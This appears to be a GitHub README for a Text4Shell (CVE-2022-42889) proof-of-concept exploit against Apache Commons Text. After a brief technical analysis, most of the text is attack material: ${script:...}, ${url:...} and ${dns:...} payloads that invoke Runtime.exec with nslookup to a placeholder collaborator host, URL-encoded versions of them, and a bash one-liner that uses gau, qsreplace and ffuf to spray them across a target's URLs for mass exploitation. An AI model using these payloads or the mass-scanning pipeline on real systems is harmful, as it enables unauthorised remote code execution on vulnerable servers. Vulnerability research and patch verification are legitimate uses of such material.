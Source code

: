 # CVE-2022-42889-text4shell 🔥🔥🔥


https://github.com/korteke/CVE-2022-42889-POC


#
##
##
##
#

Apache commons text  - CVE-2022-42889 Text4Shell proof of concept exploit.
## Details📃
CVE-2022-42889 affects Apache Commons Text versions 1.5 through 1.9. It has been patched as of Commons Text version 1.10


The vulnerability has been compared to Log4Shell since it is an open-source library-level vulnerability that is likely to impact a wide variety of software applications that use the relevant object.
However, initial analysis indicates that this is a bad comparison. The nature of the vulnerability means that unlike Log4Shell, it will be rare that an application uses the vulnerable component of Commons Text to process untrusted, potentially malicious input.
### Technical analysis
The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.

While this specific code fragment is unlikely to exist in production applications, the concern is that in some applications, the `pocstring` variable may be attacker-controlled. In this sense, the vulnerability echoes Log4Shell. However, the StringSubstitutor interpolator is considerably less widely used than the vulnerable string substitution in Log4j and the nature of such an interpolator means that getting crafted input to the vulnerable object is less likely than merely interacting with such a crafted string as in Log4Shell.

## Exploitation👨‍💻

### Manual🛠️
**script:javascript**

Replace parameter value with payload:
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7
```

**url**
```
${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7
```

**dns**
```
${dns:address:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Bdns%3Aaddress%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7

```

### Mass exploitation ⛓️

[payloads.txt](https://gist.githubusercontent.com/kljunowsky/97479082f50cd9219e80258f698c4d26/raw/7e600767bc59483653a34f17bd426340f28bf086/text4shell-payloads.txt)
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}

${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}

${dns:address:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
for payload in $(cat payloads.txt|sed 's/ COLLABORATOR-HERE/SPACEid.burpcollaborator.com/g'); do echo TARGET.com | gau --blacklist ttf,woff,svg,png | qsreplace "$payload" | sed 's/SPACE/%20/g' | grep "java.lang.Runtime.getRuntime" >> payloads-final.txt;done && ffuf -w payloads-final.txt -u FUZZ
```

#### Happy huting!💸

### Requirements🧰

[ffuf](https://github.com/ffuf/ffuf)
Thanks [@joohoi](https://github.com/joohoi)!

[qsreplace](https://github.com/tomnomnom/qsreplace)
Thanks [@tomnomnom](https://github.com/tomnomnom)

[gau](https://github.com/lc/gau)
Thanks [@lc](https://github.com/lc)

## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)
